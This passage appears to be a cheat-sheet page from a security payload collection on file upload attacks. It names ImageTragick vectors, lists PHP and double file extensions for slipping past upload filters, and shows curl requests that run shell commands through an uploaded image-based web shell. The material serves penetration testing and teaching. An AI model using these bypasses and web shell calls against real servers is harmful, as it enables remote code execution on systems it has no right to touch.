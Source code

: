 # Upload
Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.	

## Exploits
Image Tragik
```
HTTP Request
Reverse Shell
Touch command
```

PHP Extension
```
.php

Less known extension
.pht
.pgif
.phtml
.shtml

Double extension
.jpeg.php
.png.php
```

PNG Bypass a resize - Upload the picture and use a local file inclusion
```
You can use it by specifying $_GET[0] as shell_exec and passing a $_POST[1] parameter with the shell command to execute.
curl 'http://localhost/b.php?0=shell_exec' --data "1='ls'"
curl 'http://localhost/test.php?0=system' --data "1='ls'"
```

JPG Bypass a resize - Upload the picture and use a local file inclusion
```
http://localhost/test.php?c=ls
```

## Thanks to
* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil